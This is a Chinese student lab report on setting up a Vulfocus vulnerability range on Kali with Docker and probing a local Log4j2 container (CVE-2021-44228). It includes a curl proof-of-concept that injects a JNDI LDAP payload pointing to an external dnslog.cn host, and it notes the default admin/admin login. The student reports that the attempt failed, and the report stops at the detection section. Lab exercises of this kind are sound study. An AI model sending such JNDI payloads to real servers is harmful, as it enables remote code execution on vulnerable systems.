# 网络安全综合实验：开源信息系统搭建、加固与漏洞攻防


## 基础实验要求

- 基础运行环境准备
- 漏洞攻防环境现状
- 漏洞攻防环境搭建
- 漏洞攻击
- 漏洞利用检测
- 漏洞利用防御与加固

## 实验过程

### 基础运行环境准备

准备基础的实验环境

多重加载镜像，使用两块网卡，第二块网卡使用host-only



启动虚拟机，查看IP地址，配置网卡，保证网卡能正确的分配到地址



使用kali开启ssh服务





ssh服务启动和ssh免密登录

### 漏洞攻防环境搭建

##### 纯净版 Kali 初始化基础环境

```
sudo apt update && sudo apt install -y docker.io docker-compose jq

# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
# 重新登录 shell 生效
sudo usermod -a -G docker ${USER}

# 切换到 root 用户
sudo su -

# 使用中科大 Docker Hub 镜像源
cat <<EOF > /etc/docker/daemon.json
{
  "registry-mirrors": ["https://docker.mirrors.ustc.edu.cn/"]
}
EOF

# 重启 docker 守护进程
systemctl restart docker

# 提前拉取 vulfocus 镜像
docker pull vulfocus/vulfocus:latest
```



对 [fofapro/vulfocus](https://github.com/fofapro/vulfocus) 提供傻瓜式二次封装，启动方式简化为

1. `bash start.sh`

2. 选择对外提供访问 `vulfocus-web` 的 IP

3. 打开浏览器访问 admin / admin

   ppps：（当时真没注意这里，只顾着跟着视频做，老师直接就账号密码输入进去了，我还在想要不要注册一个账户，结果发现注册不了，当时以为账号密码是随机的，结果随便输入也不行，结果搜索发现有默认账号，当时在想“我请问只有我一个人不知道原来是默认吗😭😭😭”）

   

4. 【镜像管理】-【镜像管理】-【一键同步】

5. 搜索感兴趣的漏洞镜像-【下载】

6. 镜像下载完毕后，【首页】，随时可以【启动】镜像开始漏洞攻防实验了

### 漏洞攻击

实验要求有

从单个漏洞靶标开始

> 一切来自于 **用户输入** 的数据都是不可信的。

1. 找到靶标的【访问入口】
2. 收集【威胁暴露面】信息
3. 检测漏洞存在性
4. 验证漏洞可利用性
5. 评估漏洞利用效果			

在实验中我们以 [log4j2 CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 为例，首先我们找到靶标的访问入口， 在Vulfocus启动漏洞环境，镜像管理中搜索`Log4j2远程命令执行（CVE-2021-44228）`镜像并下载，完成后启动： 


浏览器访问该地址`192.168.144.5：XXXXX`（因每次启动该镜像，访问地址端口会发生变化，实验截图的时间不统一，所以地址会发生变化，但都是实验者全程做下来的）

查看到容器名称为`hardcore_gauss`



进入容器

```
docker exec -it optimistic_blackwell bash
```

[](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice/blob/rock/img/intothecontainer.png)



查看到容器目录下有`demo.jar`文件，拉取到容器的宿主机

```
# docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
sudo docker cp optimistic_blackwell:/demo/demo.jar ./
```



使用[jadx](https://github.com/skylot/jadx/releases/tag/v1.4.7)反编译demo.jar



源码中有名为`Log4j2RceApplic`的类，验证该漏洞存在

**验证漏洞可利用性**

访问http://dnslog.cn/获取专属随机子域名



使用PoC手动测试，在宿主机上输入命令

```php
curl -X POST http://192.168.144.5:44940/hello -d payload='"${jndi:ldap://9fkjt1.dnslog.cn/exp}"' 
```

产生报错



反复试验无果后，决定换一种思路达成实验结果


### 漏洞利用检测

